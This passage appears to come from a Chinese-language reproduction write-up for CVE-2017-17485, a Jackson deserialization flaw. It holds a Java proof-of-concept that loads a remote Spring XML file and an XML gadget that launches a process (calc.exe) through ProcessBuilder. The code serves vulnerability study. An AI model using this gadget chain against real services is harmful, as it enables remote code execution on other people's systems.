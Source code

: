```bash

    </dependencies>
</project>
```

### 复现

```bash
package CVE201717485;

import com.fasterxml.jackson.databind.ObjectMapper;

import java.io.IOException;

public class PoC {
    public static void main(String[] args)  {

        String payload = "[\"org.springframework.context.support.ClassPathXmlApplicationContext\", \"http://127.0.0.1/spel.xml\"]";
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        try {
            mapper.readValue(payload, Object.class);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

```bash
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder">
        <constructor-arg value="calc.exe" />
        <property name="whatever" value="#{ pb.start() }"/>
    </bean>
</beans>
```

指定了 java.lang.ProcessBuilder 类 写入了所需执行的命令
